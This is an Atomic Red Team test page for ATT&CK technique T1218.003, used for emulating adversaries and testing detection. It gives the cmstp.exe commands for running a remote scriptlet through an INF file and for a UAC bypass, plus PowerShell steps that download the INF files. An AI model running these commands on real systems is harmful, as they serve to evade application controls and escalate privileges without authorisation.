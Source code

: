 # T1218.003 - CMSTP
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/003)
<blockquote>Adversaries may abuse CMSTP to proxy execution of malicious code. The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. (Citation: Microsoft Connection Manager Oct 2009) CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections.

Adversaries may supply CMSTP.exe with INF files infected with malicious commands. (Citation: Twitter CMSTP Usage Jan 2018) Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010) / ”Squiblydoo”, CMSTP.exe may be abused to load and execute DLLs (Citation: MSitPros CMSTP Aug 2017)  and/or COM scriptlets (SCT) from remote servers. (Citation: Twitter CMSTP Jan 2018) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018) This execution may also bypass AppLocker and other application control defenses since CMSTP.exe is a legitimate, signed Microsoft application.

CMSTP.exe can also be abused to [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002) and execute arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - CMSTP Executing Remote Scriptlet](#atomic-test-1---cmstp-executing-remote-scriptlet)

- [Atomic Test #2 - CMSTP Executing UAC Bypass](#atomic-test-2---cmstp-executing-uac-bypass)


<br/>

## Atomic Test #1 - CMSTP Executing Remote Scriptlet
Adversaries may supply CMSTP.exe with INF files infected with malicious commands

**Supported Platforms:** Windows


**auto_generated_guid:** 34e63321-9683-496b-bbc1-7566bc55e624





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| inf_file_path | Path to the INF file | Path | PathToAtomicsFolder&#92;T1218.003&#92;src&#92;T1218.003.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s #{inf_file_path}
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_file_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_file_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.003/src/T218.003.inf" -OutFile "#{inf_file_path}"
```




<br/>
<br/>

## Atomic Test #2 - CMSTP Executing UAC Bypass
Adversaries may invoke cmd.exe (or other malicious commands) by embedding them in the RunPreSetupCommandsSection of an INF file

**Supported Platforms:** Windows


**auto_generated_guid:** 748cb4f6-2fb3-4e97-b7ad-b22635a09ab0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| inf_file_uac | Path to the INF file | Path | PathToAtomicsFolder&#92;T1218.003&#92;src&#92;T1218.003_uacbypass.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s #{inf_file_uac} /au
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_uac})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_file_uac}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_file_uac}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.003/src/T1218.003_uacbypass.inf" -OutFile "#{inf_file_uac}"
```




<br/>

